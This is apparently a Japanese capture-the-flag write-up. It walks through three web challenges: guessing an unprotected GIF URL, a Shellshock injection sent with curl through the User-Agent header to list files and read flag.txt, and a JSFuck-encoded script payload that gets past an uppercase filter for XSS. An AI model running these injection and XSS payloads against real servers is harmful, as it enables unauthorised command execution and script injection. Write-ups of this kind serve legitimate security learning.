 初倒しは私でした。やったー。

## [超文書転送術 100] GIFアニメ生成サイト
トップページにある、これまでに生成された GIF 画像の URL を見てみると、`/movies/view/2874` のような形式でした。  
`/movies/view/1` にアクセスしてみたところ、閲覧する権限がないと怒られてしまいました。

試しに画像をアップロードして GIF を作ってみると、プレビューの URL が `/movies/newgif/2956` となっており、先ほどと形式が異なっています。  
`/movies/newgif/1` にアクセスすると、フラッグが表示されました。

```
flag: H0WdoUpronunceGIF?
```

## [超文書転送術 200] Network Tools
`/list` を見てみると `arp` `ps` のような特定のコマンドとオプションを入力して送信ボタンを押すと `/exec` に POST で投げられるという感じでした。  
ここで OS コマンドインジェクションが可能なのではと考えたのですが、コマンドはいじってもリストにあるもの以外はダメ、オプションはコメントアウトされているホワイトリストにあるもの以外はダメといった様子でした。

`/about` を見てみると、ちょっとした文章と `NOTE: DON'T FORGET TO FIND OUT THE HIDDEN MESSAGE HERE!` という注釈文。文章を見てみると変な位置に大文字があるので、文章から大文字のみを取り出してみると `SHELLSHOCK`。

`curl -A '() { :;}; /bin/ls' -F "cmd=hostname" -F "option=" http://…/exec` を投げると `flag.txt logs logs.py …` といった出力が返ってきました。  
`/bin/ls` の部分を `/bin/cat flag.txt` に変えるとフラッグが出ました。

```
flag: Update bash to the latest version!
```

---

…というのが普通なんですが、最初に解いたときは `/bin/ls` のようにすべきところを `ls` と書いてしまって動かず、大分詰まっていました。  
ならどうしたのかというと、`() { :;}; $(hoge)` とすると `/bin/sh: hoge: No such file or directory` のようにエラーが出ることから、それなら `hoge` の部分でフラッグを出せばいいのでは…と考えてしまいました。

`/cgi-bin/flag.txt` にアクセスすると、HTTP ステータスコードが `404` でなく `503` になっています。このことから、フラッグが `flag.txt` にあると推測しました。  
`$(hoge)` を `$(<flag.txt)` にすると `/bin/sh: flag={Update bash to the latest version!}: No such file or directory` と表示され、無事フラッグを手に入れることができました。  

## [超文書転送術 100] 箱庭XSS
`ABCabc` と入力すると `ABCABC` が返ってきました。入力が全て大文字にされてしまうようです。  
スクリプト部分を全部記号にしてしまえば大文字小文字は関係ないので、[JSF**k](https://github.com/aemkei/jsfuck) などを使って

```html
<script>[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()</script>
```
